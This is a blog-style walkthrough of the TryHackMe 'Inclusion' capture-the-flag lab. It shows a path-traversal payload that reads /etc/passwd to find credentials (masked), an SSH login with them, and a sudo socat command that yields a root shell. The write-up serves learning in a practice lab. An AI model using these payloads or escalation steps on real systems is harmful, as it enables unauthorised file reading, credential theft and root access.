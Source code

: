 ```yaml
---
layout: post
title: "THM Writeup - Inclusion"
subtitle: "Try Hack Me - LFI"
date: 2021-07-14 
background: '/img/bg-write.jpg'
---
```


# THM ![Try Hack Me](https://img.shields.io/badge/-TryHackMe-black?style=flat-square&logo=tryhackme)

![1]

## Room name: Inclusion
<https://tryhackme.com/room/inclusion>


### Description: 
A beginner level LFI challenge.

### OS: ![Linux](https://img.shields.io/badge/Linux-black?style=flat-square&logo=linux)


Knowing that the challenge in this room is to exploit Local File Inclusion, we can begin by navigating to the website at the IP address on port 80.

Here we see a basic webpage sharing information about LFI and RFI exploitation. Clicking through some of the articles and observing the changes to the URL strings, we notice the following pattern.

```
http://127.0.0.1/article?name=lfiattack
```
The information after the "?" indicates a query string. We can use this to test for LFI exposure. To start, we use a basic search for common files that can give us the information we are seeing. These typically include:

> /etc/passwd<br>
> /etc/hosts<br>
> /etc/exports<br>

Starting with the following string gives us results immediately:

```html
http://127.0.0.1/article?name=../../../../etc/passwd
```
Interestingly enough, we see the results from /etc/passwd directly within the page and can quickly identify a username and password pair in cleartext.

```
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#f**********t:r**********d <-------
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
```




## User Flag:
Using these details, we attempt to SSH into the server hosting the webpage and successfully connect. 

```bash
# ssh f*****t@127.0.0.1
f******t@inclusion:~$ 
```

We then list the directory contents and quickly find the user flag:
```bash
f*****t@inclusion:~$ ls
articles  user.txt
f*****t@inclusion:~$ cat user.txt 
6****************9
```

## Root Flag
Now that we have a user shell we can review what, if any SUDO permissions are available for use. To do so we run *sudo -l* to enumerate. We see that user f******t may run socat as SUDO. We reference GTFObins for an appropriate bypass. <https://gtfobins.github.io/gtfobins/socat/> 
```bash
User f*****t may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```
This being the case, we can attempt to run the binary and receive a root shell.

```bash
falconfeast@inclusion:~$ sudo socat stdin exec:/bin/sh
```
The process is successful however our root shell is missing a prompt. Since we are simply extracting the data from the root flag and know its, location, we dont necessarily need to stabilize. Moving on we identify the root.txt flag located in /root/root.txt and expose its contents.
```
whoami
root
cat /root/root.txt
4********9
```

## Takeaways

1. Local File Inclusion
2. ssh login with located credentials
3. sudo enumeration and exploitation of privilege using GTFObins

[1]:lfi.png
